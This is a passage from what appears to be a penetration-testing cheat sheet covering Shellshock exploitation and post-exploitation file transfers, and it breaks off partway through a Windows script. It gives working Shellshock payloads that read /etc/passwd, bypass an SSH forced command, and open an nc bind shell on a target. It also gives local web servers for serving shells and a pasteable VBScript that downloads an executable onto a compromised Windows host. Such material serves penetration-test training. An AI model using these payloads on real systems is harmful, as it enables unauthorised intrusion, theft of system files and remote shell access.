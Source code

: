     -   git clone https://github.com/nccgroup/shocker

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        
              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
    
              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
    
             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
